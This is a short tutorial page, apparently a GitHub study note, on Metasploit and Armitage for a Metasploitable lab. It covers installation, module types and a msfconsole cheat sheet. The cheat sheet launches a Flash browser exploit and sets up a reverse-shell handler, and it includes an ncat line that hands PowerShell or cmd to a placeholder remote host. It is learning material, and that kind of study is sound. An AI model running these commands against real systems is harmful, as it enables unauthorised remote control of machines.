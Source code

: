 <h5><em>Update: Aug-2022</em></h5>

<h2> Metasploit (cc. Armitage)</h2>

<h3> Metasploit Project Intro.</h3>

<i>Refer to -> https://www.metasploit.com/</i>

<i>Tutorial: https://www.offensive-security.com/metasploit-unleashed/introduction/</i>

<h4> Installation</h4>

-   msf: CLI based metasploit framework (Kali Linux default program)
-   Armitage: Java-based GUI front-end for the metasploit framework

    ```sh
    # metasploit (mfsconsole): Kali Linux default
    # Armitage: need install
    sudo apt install armitage

    ```

<h4> Modules</h4>

1. Elxploits: modules that use payloads
2. Auxiliary: port scanners, fuzzers, sniffers, and more
3. Payloads: code that runs remotely
4. Encoders: Ensure that payloads make it to their destination intact
5. Nops: Keep the payload sizes consistent across exploit attempts
   <br/>

<h4> Lab Environment: Metasploitable</h4>

[Metasploitable 2 Exploitability Guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)

[Metasploitable 2 from SourceForge](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)

<h6><font color="red"> *** Never expose Metasploitable to an untrusted network, use NAT or Host-only mode ! ***</font></h6>
   <br/>

<h4> <font color="blue">msf</font> CLI</h4>

```sh
service postgresql start
msfconsole
banner
help

show exploits
show options
show payloads
show targets
show info

# use "module-name-you-want-to-use"
use exploit/windows/browser/adobe_flash_avm2
show options
set SRVPORT 80
set SRVHOST 192.168.0.1
exploit
back
exit


# search specific exploits matching keywords
search type:exploit platform:windows flash
search mysql

# reverse shell connection example
use exploit/multi/handler
show options
set PAYLOAD generic/shell_reverse_tcp
set LHOST xx.xx.xx.xx
set LPORT pppp
show options
exploit

# if the target is a Windows machine
>> ncat -nv xx.xx.xx.xx pppp -e powershell or cmd


```
